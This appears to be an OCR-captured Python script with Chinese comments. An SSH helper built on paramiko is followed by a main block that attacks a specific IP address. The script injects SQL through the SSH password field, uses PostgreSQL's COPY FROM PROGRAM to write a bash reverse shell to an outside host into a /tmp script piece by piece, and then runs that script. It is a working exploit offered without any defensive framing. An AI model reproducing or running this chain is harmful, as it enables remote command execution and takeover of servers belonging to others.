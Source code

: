 ```python
        # 1. 创建SSH客户端对象
        client = paramiko.SSHClient()

        # 2. 自动添加主机密钥（方便测试，生产环境请谨慎使用）
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

        # 3. 建立连接
        client.connect(
            hostname=hostname,
            port=port,
            username=username,
            password=password,
            timeout=10
        )

        # 4. 执行命令
        stdin, stdout, stderr = client.exec_command(command)

        # 5. 获取命令的退出状态码，这会等待命令执行完成
        exit_status = stdout.channel.recv_exit_status()

        # 6. 读取输出和错误
        stdout_output = stdout.read().decode('utf-8')
        stderr_output = stderr.read().decode('utf-8')

        return stdout_output, stderr_output, exit_status

    except paramiko.AuthenticationException:
        error_message = f"认证失败：用户名或密码错误。"
        print(error_message)
        return None, error_message, -1
    except Exception as e:
        error_message = f"连接或执行时发生错误: {e}"
        print(error_message)
        return None, error_message, -1
    finally:
        # 7. 确保在函数结束时总是关闭连接
        if client:
            client.close()


if __name__ == "__main__":
    hostname = "114.55.146.242"
    port = 22

    username = "root"
    password = "';CREATE TABLE vqs(b text);-- "

    output, error, status = ssh_execute_command(hostname, username, password, 'anything')

    command = "bash -i >& /dev/tcp/124.70.132.209/6667 0>&1"

    for i in range(5):
        username = "root"
        password = f"';COPY vqs FROM PROGRAM 'echo -n \"{command[i*10:(i+1)*10]}\">>/tmp/147.sh';-- "
        output, error, status = ssh_execute_command(hostname, username, password, 'anything')

    username = "root"
    password = "';COPY vqs FROM PROGRAM 'bash /tmp/147.sh';-- "
    output, error, status = ssh_execute_command(hostname, username, password, 'anything')
```
